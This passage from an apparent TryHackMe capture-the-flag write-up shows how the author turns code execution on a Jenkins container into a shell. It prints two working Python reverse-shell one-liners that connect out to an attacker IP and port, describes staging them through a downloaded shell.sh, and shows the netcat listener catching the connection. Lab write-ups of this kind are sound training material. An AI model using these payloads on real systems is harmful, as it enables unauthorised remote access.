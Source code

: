 ### Code Execution on the container

![10](/assets/images/thm/internal/10.png)
We are running as user **jenkins** on the container.

### Reverse shell as user jenkins
Lets replace the command variable with the contents of the reverse shell and open up our netcat listener.
There was no netcat on the container but it has python and it was erroring out due to the cause of so many quotes, so I hosted a file called shell.sh on my local box, and downloaded the file on the container in first step and executed the file on the second step.

### Contents of shell.sh
```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![11](/assets/images/thm/internal/11.png)
And we get a connection back on our netcat listener.
```console
local@local:~/Documents/tryhackme/internal$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.4.68 52578
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```